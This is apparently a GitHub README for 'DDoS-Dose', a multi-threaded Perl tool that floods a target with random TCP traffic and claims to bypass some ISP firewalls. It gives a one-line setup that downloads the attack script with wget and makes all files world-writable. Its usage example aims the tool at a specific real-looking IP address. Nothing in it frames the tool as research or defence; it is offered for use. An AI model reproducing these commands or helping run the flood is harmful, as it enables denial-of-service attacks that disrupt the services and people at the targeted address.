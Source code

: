 
# Script for DDoS-Dose !

## Features

- Generate Random TCP Traffic
- To Target Port & from Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- multi-threads
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/TCP/random-tcp%20%7C%20ID%3AA1/random-tcp.pl && chmod 777 *

```
## Usage

```
perl random-tcp.pl 162.241.27.65 100
perl random-tcp.pl <target ip> <number of threads>
```
```
- This script pre-configured to send traffic to Specif port, (Line18) Can be Changed & from random port (Line17)
- This script pre-configured to send random packet size, (Line19), Can be changed!
- Can adjust time by "timeout 30" command,
```

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in

